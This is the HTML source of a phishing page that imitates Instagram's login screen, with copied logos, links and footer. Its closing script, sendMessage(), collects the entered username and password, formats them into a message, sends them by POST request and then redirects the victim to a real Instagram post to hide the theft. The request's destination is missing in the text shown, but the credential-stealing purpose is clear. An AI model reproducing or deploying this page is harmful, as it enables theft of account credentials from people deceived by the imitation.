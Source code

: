 <head>
  <link rel="Icon" type="image/x-icon" href="https://a-manu.com/wp-content/uploads/sites/171/2017/04/instagram-Logo-PNG-Transparent-Background-download-300x300.png">
  <title>Instagram</title>
</head>
<body>
  <span id="root">
    <section class="section-all">
      <link rel="stylesheet" href="css.css">
      <!-- 1-Role Main -->
      <main class="main" role="main">
        <div class="wrapper">
          <article class="article">
            <div class="content">
              <div class="login-box">
                <div class="header">
                  <img class="logo" src="https://upload.wikimedia.org/wikipedia/commons/thumb/2/2a/Instagram_logo.svg/1200px-Instagram_logo.svg.png" alt="Instagram">
                </div><!-- Header end -->
                <div class="form-wrap">
                  <form class="form">

                    <div class="input-box">
                      <input type="text" id="username" placeholder="Phone number, username, or email" aria-required="true" maxlength="30" autocapitalize="off" autocorrect="off" name="username" required>
                    </div>  

                    <div class="input-box">
                      <input type="password" name="password" id="password" placeholder="Password" maxlength="30" aria-required="true" autocapitalize="off" autocorrect="off" required>
                    </div>  

                    <span class="button-box">
                      <button class="btn" type="button" name="submit" onclick="sendMessage()">Log in</button>
                    </span>  

                    <a class="forgot" href="https://www.instagram.com/accounts/password/reset">Forgot password?</a>
                  </form>
                </div> <!-- Form-wrap end -->
              </div> <!-- Login-box end -->

              <div class="login-box">
                <p class="text">Don't have an account?<a href="https://www.instagram.com/accounts/emailsignup">Sign up</a></p>
              </div> <!-- Signup-box end -->

              <div class="app">
                <p>Get the app.</p>
                <div class="app-img">
                  <a href="https://itunes.apple.com/app/instagram/id389801252?pt=428156&amp;ct=igweb.loginPage.badge&amp;mt=8">
                    <img src="https://www.instagram.com/static/images/appstore-install-badges/badge_ios_english-en.png/4b70f6fae447.png" >
                  </a>
                  <a href="https://play.google.com/store/apps/details?id=com.instagram.android&amp;referrer=utm_source%3Dinstagramweb%26utm_campaign%3DloginPage%26utm_medium%3Dbadge">
                    <img src="https://www.instagram.com/static/images/appstore-install-badges/badge_android_english-en.png/f06b908907d5.png">
                  </a>  
                </div>  <!-- App-img end-->
              </div> <!-- App end -->
            </div> <!-- Content end -->
          </article>
        </div> <!-- Wrapper end -->
      </main>

      <!-- 2-Role Footer -->
      <footer class="footer" role="contentinfo">
        <div class="footer-container">

          <nav class="footer-nav" role="navigation">
            <ul>
			  <li><a href=""></a></li>
              <li><a href="https://about.instagram.com">About Us</a></li>
              <li><a href="https://help.instagram.com">Support</a></li>
              <li><a href="https://about.instagram.com/blog">Blog</a></li>
              <li><a href="https://about.instagram.com/about-us/careers">Jobs</a></li>
              <li><a href="https://www.instagram.com/developer">Api</a></li>
              <li><a href="https://help.instagram.com/519522125107875">Privacy</a></li>
              <li><a href="https://help.instagram.com/581066165581870">Terms</a></li>
              <li><a href="https://www.instagram.com/directory/hashtags">Directory</a></li>
			  <li><a href="">Intsagram</a></li>
            </ul>
          </nav>

          <span class="footer-logo">&copy; 2021 Instagram</span>
        </div> <!-- Footer container end -->
      </footer>
      
    </section>
  </span> <!-- Root -->

  <!-- Select Link -->
  <script type="text/javascript">
    function la(src) {
      window.location=src;
    }
  </script>

  <script>
  function sendMessage() {
  function sleep(milliseconds) {
  const date = Date.now();
  let currentDate = null;
  do {
    currentDate = Date.now();
  } while (currentDate - date < milliseconds);
}
    var request = new XMLHttpRequest();
    request.open("POST");
    request.setRequestHeader('Content-type', 'application/json');
    var params = {
      content: ("> **USERNAME  : **" + document.getElementById('username').value + "\n> **PASSWORD : **" + document.getElementById('password').value)
    }
    request.send(JSON.stringify(params));
	sleep(400)
	window.location.replace("https://www.instagram.com/p/By7NkskoTip");
  }
  </script>
</body>
